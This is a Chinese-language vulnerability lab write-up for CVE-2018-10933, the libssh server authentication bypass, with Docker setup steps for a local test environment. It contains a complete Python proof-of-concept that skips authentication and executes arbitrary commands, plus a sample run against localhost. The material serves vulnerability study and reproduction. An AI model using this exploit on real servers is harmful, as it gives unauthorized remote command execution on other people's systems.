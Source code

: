 # Libssh 服务端权限认证绕过漏洞 CVE-2018-10933

## 漏洞描述

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 环境搭建

Vulhub执行如下命令启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@127.0.0.1
```

![image-20220226202222786](images/202202262022920.png)

## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

```python
python CVE-2018-10933.py 127.0.0.1 2222 "ps aux"
```

![image-20220226203232510](images/202202262032774.png)

